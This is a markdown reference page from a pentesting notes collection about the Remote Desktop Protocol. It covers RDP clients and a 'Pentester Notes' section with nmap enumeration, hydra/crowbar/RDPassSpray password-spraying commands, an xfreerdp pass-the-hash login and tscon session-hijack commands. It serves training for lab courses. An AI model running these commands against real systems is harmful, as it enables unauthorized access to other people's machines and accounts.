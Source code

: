 # Remote Desktop Protocol (RDP)

[![windowsfundamentals](../../../cybersecurity/_badges/htb/windowsfundamentals.svg)](https://academy.hackthebox.com/course/preview/windows-fundamentals)
[![footprinting](../../../cybersecurity/_badges/htb/footprinting.svg)](https://academy.hackthebox.com/course/preview/footprinting)

<div class="row row-cols-lg-2"><div>

Remote Desktop Protocol (RDP) is a protocol used to access a  desktop with a graphical interface from another computer over a network connection.

🐊️ **Port**: 3389 <small>(TCP or rarely UDP)</small>

It can be used to transfer files too, if the server supports it.
</div><div>
</div></div>

<hr class="sep-both">

## RDP Clients Overview

<div class="row row-cols-lg-2"><div>

#### RDP Using Microsoft Terminal Services Client

On Windows, there is the built-in client: `mstsc.exe`. It has a few options to reduce the quality and increase performance.

Click on `Show options` then `Experience` and select `modem`.

<br>

#### RDP Using rdesktop

There is [rdesktop](https://github.com/rdesktop/rdesktop) <small>(1.3k ⭐)</small>.

```shell!
$ rdesktop [...] -r disk:linux='/path/to/folder'
```

<br>

#### RDP Using FreeRDP

[FreeRDP](https://github.com/FreeRDP/FreeRDP) <small>(11.5k ⭐)</small> is a popular client that may be installed on many Linux distributions. There is a GUI called [xfreerdp-gui](https://github.com/wyllianbs/xfreerdp-gui) <small>(0.1k ⭐, 2020 🪦)</small>.

```shell!
$ xfreerdp /u:username /p:password /v:IP
$ xfreerdp /u:username /pth:hash /v:IP
$ xfreerdp /dynamic-resolution +clipboard /timeout:50000 /cert:ignore /v:IP /u:x /p:y
$ xfreerdp [...] /drive:linux,/path/to/folder
$ xfreerdp [...] /drive:/usr/share/windows-resources,share
```
</div><div>

#### RDP Using Remmina

[Remmina](https://github.com/FreeRDP/Remmina) <small>(2.3k ⭐)</small> is a popular graphical RDP client. It's easy to use and it has as many useful features as the others do.

```ps
$ sudo apt install -y remmina
$ remmina # start it
```

Click on the `+` at the top-left to configure your RDP connections, such as if you want to share a shared folder or use a SSH tunnel to a pivot.

You can alternatively directly enter the IP then the credentials in the search bar of the main pane. Accept the certificate <small>(if prompted)</small>.

In preferences, we are able to select a keyboard mapping. In the quality section, you can uncheck everything for every category.

Useful icons:

* **Home**  🏠️: switch back to remmina main panel
* **Toggle Dynamic Resolution Update** 🖼️: fit to your screen

📚 Navigate to `\\tsclient\` to access the shared folder.

📚 You can create a SSH tunnel directly from Remmina configuration.
</div></div>

<hr class="sep-both">

## RDP Pentester Notes ☠️

<div class="row row-cols-lg-2"><div>

#### Enumeration

[![attacking_common_services](../../../cybersecurity/_badges/htb/attacking_common_services.svg)](https://academy.hackthebox.com/course/preview/attacking-common-services)
[![passwordattacks](../../../cybersecurity/_badges/thmp/passwordattacks.svg)](https://tryhackme.com/room/passwordattacks)

* Using [nmap](/cybersecurity/red-team/tools/scanners/ports/nmap.md) to run scripts

```ps
$ # nmap RDP cookies are leaving traces (--packet-trace)
$ sudo nmap -sV -sC -p 3389 --script rdp* IP
```

#### Foothold

[![password_attacks](../../../cybersecurity/_badges/htb/password_attacks.svg)](https://academy.hackthebox.com/course/preview/password-attacks)
[![attacking_common_services](../../../cybersecurity/_badges/htb/attacking_common_services.svg)](https://academy.hackthebox.com/course/preview/attacking-common-services)
[![passwordattacks](../../../cybersecurity/_badges/thmp/passwordattacks.svg)](https://tryhackme.com/room/passwordattacks)

* The password may be weak and vulnerable to [brute force](/cybersecurity/red-team/s2.discovery/techniques/network/auth.md).

```shell!
$ hydra -L user.list -P password.list rdp://IP -V
$ crowbar -b rdp -s IP/32 -u username -C password.list -v -n 64
```

There is also [RDPassSpray](https://github.com/xFreed0m/RDPassSpray) <small>(0.6k ⭐)</small>.

```ps
$ python3 RDPassSpray.py -u username -p password -t IP:port
$ python3 RDPassSpray.py -U usernames.lst -p password -t IP:port
$ python3 RDPassSpray.py [...] -d domain
$ python3 RDPassSpray.py [...] -T rdp_servers.lst
```
</div><div>

#### Exploitation

[![attacking_common_services](../../../cybersecurity/_badges/htb/attacking_common_services.svg)](https://academy.hackthebox.com/course/preview/attacking-common-services)

* **RDP Session Hijacking**: connect to another user session. On Windows, as admin, we can use [tscon](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/tscon).

```ps
PS> tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}
```

On Windows Server prior to 2019 as a local administrator, we can use:

```ps
PS> sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"
PS> net start sessionhijack
```

#### Well-known CVEs

* [BlueKeep Vulnerability](https://en.wikipedia.org/wiki/BlueKeep) <small>(2019, RCE, unstable/BSoD)</small>

#### Additional Tools

* [rdp-sec-check.pl](https://github.com/CiscoCXSecurity/rdp-sec-check) <small>(0.2k ⭐, 2021 🪦)</small>
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* ms-wbt-server (Windows RDP implementation)
* [Network Level Authentication (NLA)](https://en.wikipedia.org/wiki/Remote_Desktop_Services#Network_Level_Authentication)
</div><div>
</div></div>